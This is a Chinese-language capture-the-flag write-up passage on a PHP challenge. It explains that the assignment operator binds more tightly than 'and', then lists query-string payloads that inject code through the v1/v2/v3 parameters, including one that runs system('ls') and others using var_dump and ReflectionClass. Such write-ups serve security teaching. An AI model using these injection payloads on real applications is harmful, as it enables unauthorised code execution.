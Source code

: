 ```php
?>

Notice: Undefined index: v1 in /var/www/html/index.php on line 17

Notice: Undefined index: v2 in /var/www/html/index.php on line 18

Notice: Undefined index: v3 in /var/www/html/index.php on line 19
```

这里有问题，又学费了。

php  `=` 的运算符竟然比 `and` 高。

> https://www.jb51.net/article/42425.htm
>
> && > || > = > and > or

```php
<?php
$a=true and false and false;
var_dump($a);  返回true

$a=true && false && false;
var_dump($a);  返回false
```

[![DtN6oV.md.png](https://s3.ax1x.com/2020/11/24/DtN6oV.md.png)](https://imgchr.com/i/DtN6oV)



https://www.php.net/manual/zh/language.operators.precedence.php

所以这时候就很清晰明了了。

只需要传入的 `v1` 值是数字。`v3` 必须有`;` 。

构造

```php
# 直接输出$ctfshow;构造出 var_dump($ctfshow);
?v1=1&v2=var_dump($ctfshow)/*&v3=*/;

?v1=1&v2=var_dump(new ctfshow())/*&v3=*/;

# 因为过滤的字符比较少，所以可以直接执行命令。
?v1=1&v2=system('ls')/*&v3=*/;

/?v1=1&v2=system('ls')&v3=;    # 会报错但也可出来
```

反射类: https://www.php.net/manual/zh/class.reflectionclass.php

```php
?v1=1&v2=echo new ReflectionClass('ctfshow')/*&v3=*/;

?v1=1&v2=echo new ReflectionClass&v3=;
```
